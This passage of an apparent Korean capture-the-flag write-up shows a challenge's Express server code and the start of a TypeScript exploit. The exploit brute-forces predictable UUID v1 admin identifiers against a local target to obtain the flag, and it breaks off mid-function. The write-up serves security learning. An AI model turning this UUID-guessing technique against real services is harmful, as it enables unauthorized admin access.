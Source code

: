 ```js {34-37} title="server.js"
      useruuids.shift();
    }
  } else if (isAdmin(id)) {
    res.send(process.env.FLAG);
    return;
  }

  res.send("You are logged in as " + id + "<br><br>" + getUsers());
});

app.post("/createadmin", (req, res) => {
  const adminid = randomUUID();
  adminuuids.push(adminid);
  if (adminuuids.length > 50) {
    adminuuids.shift();
  }
  res.send("Admin account created.");
});
```

유저의 경우에는 그냥 해시를 하고 있지만, 어드민의 경우에는 `admin`을 붙여서 해시를 하고 있다.
그리고 `uuid`는 최대 50개까지 저장할 수 있어 보인다.

`uuid v1`의 경우에는 위에서 말했듯 랜덤성이 상당히 떨어진다. 따라서, `uuid`를 `brute force`하는 방법을 사용할 수 있다.

```typescript title="exploit.ts"
import { create } from "@web";
import { logger, md5 } from "@utils";
const r = create({
  baseURL: "http://localhost:8080",
});

logger.info("Starting to create admins...");

for (let i = 0; i < 25; i++) {
  await r.post("/createadmin");
}
let currentUUID = await r
  .get<string>("/")
  .then((res) =>
    res.data.split("You are logged in as ")[1].split("<br>")[0].trim()
  );

for (let i = 0; i < 25; i++) {
  await r.post("/createadmin");
}

const hashedUUIDs = await r
  .get<string>("/")
  .then((res) =>
    res.data
      .split("<strong>Admin users:</strong>")[1]
      .split("<br><br><strong>Regular users:</strong>")[0]
      .replaceAll("<tr><td>", "")
      .replaceAll("</td></tr>", "")
      .split("\n")
  );

const header = currentUUID.substring(0, 2);
logger.info(`Current UUID: ${currentUUID}, Header: ${header}`);
currentUUID = currentUUID.slice(8);

const hexChars = "0123456789abcdef";
async function checkAdmin() {
```